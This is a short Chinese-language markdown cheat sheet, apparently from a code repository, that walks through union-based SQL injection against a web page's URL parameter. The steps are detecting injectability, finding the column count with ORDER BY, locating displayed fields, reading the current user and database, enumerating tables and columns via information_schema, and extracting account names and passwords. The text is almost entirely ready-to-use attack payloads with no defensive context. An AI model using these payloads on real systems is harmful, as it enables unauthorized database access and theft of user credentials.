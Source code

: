 #sql注入

1. 检测是否可以注入
	* 在url后面加入 ‘
	* 在url后面加入 1=1 和 1=2看页面是否正常能够注入。

2. 检测当前页面的字段数
	
	` order by 某个数字`
	
	某个数字可以从1到任意一个数字，直到尝试某个数字的时候，页面显示不正常

3. 查询每个字段显示的位置
	
	` and 1=2 union select 1,2,3,4,5,6,7,8`

4. 查询当前用户和当前数据库
	
	` and 1=2 union select 1,2,user(),4,database(),6,7,8`
5. 根据库名查询数据库中的表名


	` and 1=2 union select 1,2,TABLE_NAME,4,5,6,7,8 from information_schema.tables where TABLE_SCHEMA='数据库名' limit 0,1`
	
6. 根据表明查字断名

	` and 1=2 union select 1,2,COLUMN_NAME,4,5,6,7,8 from information_schema.columns where TABLE_NAME='表名' limit 0,1`

7. 根据之前的数据查询帐号密码

	` and 1=2 union select 1,2,字段名1,4,字段名2,6,7,8 from 表名 limit 0,1`
